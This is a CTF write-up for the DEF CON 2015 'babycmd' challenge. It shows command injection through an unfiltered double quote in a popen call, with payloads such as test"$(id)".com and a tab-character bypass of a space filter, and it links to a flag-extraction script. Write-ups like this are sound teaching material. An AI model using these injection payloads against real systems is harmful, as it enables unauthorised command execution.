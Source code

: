 # babycmd
## Problem
babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me:15491 
[Download](http://downloads.notmalware.ru/babycmd_3ad28b10e8ab283d7df81795075f600b)

## Analysis
babycmd binary's "host" command is executed like this:
`popen('host "%s(user's argument)"',"r")`
This is vulnerable for command injection because argument's double quotes are not filtered.
When you send command like `host test".com`, binary will execute:
`popen('host "test".com',"r")`

    Welcome to another Baby's First Challenge!
    Commands: ping, dig, host, exit
    : host test".com
    sh: 1: Syntax error: Unterminated quoted string
    Commands: ping, dig, host, exit

Now you can inject commands you like.

    $ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

    Welcome to another Baby's First Challenge!
    Commands: ping, dig, host, exit
    : host test"$(ls)".com
    host: couldn't get address for 'boot': not found
    Commands: ping, dig, host, exit
    : host test"$(id)".com
    host: couldn't get address for 'gid=1001(babycmd)': not found
    Commands: ping, dig, host, exit
    : host test"$(pwd)".com
    Host test/.com not found: 3(NXDOMAIN)
    Commands: ping, dig, host, exit
    : ^C

Space was filtered, but "\t" is not filtered. You can use "\t" as separator.

    $ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

    Welcome to another Baby's First Challenge!
    Commands: ping, dig, host, exit
    : host test"$(ls	/home/babycmd)".com
    Using domain server:
    Name: flag.com
    Address: 69.93.11.174#53
    Aliases: 
    
    Host testbabycmd.ap-southeast-1.compute.internal not found: 5(REFUSED)
    Commands: ping, dig, host, exit

This means there is a file named "flag" in /home/babycmd.

# Exploit
My approach to retrieve the flag is open the "flag " file and send the charactor one by one using "cut" command.
It's not a nice way, but anyway, it worked.

https://github.com/Bono-iPad/CTF2015/blob/master/DEFCON2015Qual/babys-first/babycmd/babycmd.py
